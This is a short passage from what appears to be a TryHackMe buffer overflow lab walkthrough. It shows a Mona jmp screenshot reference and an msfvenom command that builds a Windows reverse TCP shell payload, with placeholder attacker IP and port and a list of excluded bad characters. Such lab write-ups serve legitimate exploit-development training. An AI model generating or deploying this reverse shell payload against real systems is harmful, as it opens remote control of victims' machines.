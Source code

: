 ![Mona jmp](/images/THM/buffprep/of7/Captura8.PNG)

##### Generating Payload

It's time to generate the payload.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<OUR IP> LPORT=<Port that we want> EXITFUNC=thread -b "\x00,\x8c,\xae,\xbe,\xfb" -f c
```
